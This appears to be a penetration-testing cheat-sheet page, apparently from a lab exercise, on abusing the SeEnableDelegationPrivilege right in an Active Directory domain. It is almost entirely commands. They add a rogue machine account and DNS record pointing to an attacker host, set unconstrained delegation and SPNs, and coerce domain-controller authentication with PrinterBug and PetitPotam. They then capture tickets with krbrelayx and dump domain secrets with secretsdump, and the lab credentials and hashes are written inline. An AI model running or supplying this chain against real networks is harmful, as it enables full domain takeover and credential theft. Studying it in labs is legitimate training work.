

# SeEnableDelegationPrivilege

Use the script: [Delegate.py](https://github.com/overgrowncarrot1/SeDelegatePrivilege/blob/main/Delegate.py) Create a password and obtain its hash:&#x20;

<figure><figcaption></figcaption></figure>

Run the script multiple times:


```
python3 Delegate.py -l <lhost-ip> -r <rhost-ip> -c <computer-name> -p TestPassword321 -d delegate.vl -dc dc1.delegate.vl -u N.Thompson -P KALEB_2341 -N C7BE3644A2EB37C9BB1F248E9E0B9AFC
```


If error then do the last part manually:

```
python3 krbrelayx/krbrelayx.py -hashes :C7BE3644A2EB37C9BB1F248E9E0B9AFC
```

and

```
python3 krbrelayx/printerbug.py 'realuser$:TestPassword321'@10.10.103.97 realuser.delegate.vl
```

### OR

* First create a machine account:

```
addcomputer.py -dc-ip 10.10.70.255 -computer-pass TestPassword321 -computer-name UwU delegate.vl/N.Thompson:'KALEB_2341'
```

* Add DNS record for the machine created:

```
python3 dnstool.py -u 'delegate.vl\UwU$' -p TestPassword321 -r UwU.delegate.vl -d 10.8.0.136 --action add DC1.delegate.vl -dns-ip 10.10.70.255
```

* Add UAC:

```
python3 /opt/bloodyAD/bloodyAD.py -u 'N.Thompson' -d 'delegate.vl' -p 'KALEB_2341' --host 'DC1.delegate.vl' add uac 'UwU$' -f TRUSTED_FOR_DELEGATION
```

* Add SPN:

```
python3 ./addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/UwU.delegate.vl' -t 'UwU$' -dc-ip 10.10.85.247 DC1.delegate.vl --additional
```

and

```
python3 ./addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/UwU.delegate.vl' -t 'UwU$' -dc-ip 10.10.85.247 DC1.delegate.v
```

* To get TGT:

```
python3 PetitPotam.py -u 'UwU$' -p 'TestPassword321' UwU.delegate.vl 10.10.85.247
```

* Convert previously used password to hash and do:

```
python3 ./krbrelayx.py -hashes :C7BE3644A2EB37C9BB1F248E9E0B9AFC
```


```
python3 krbrelayx/printerbug.py 'realuser$:TestPassword321'@10.10.103.97 realuser.delegate.vl
```

* Then use secretsdump:

```
secretsdump.py 'DC1$'@DC1.delegate.vl -k -no-pass
```
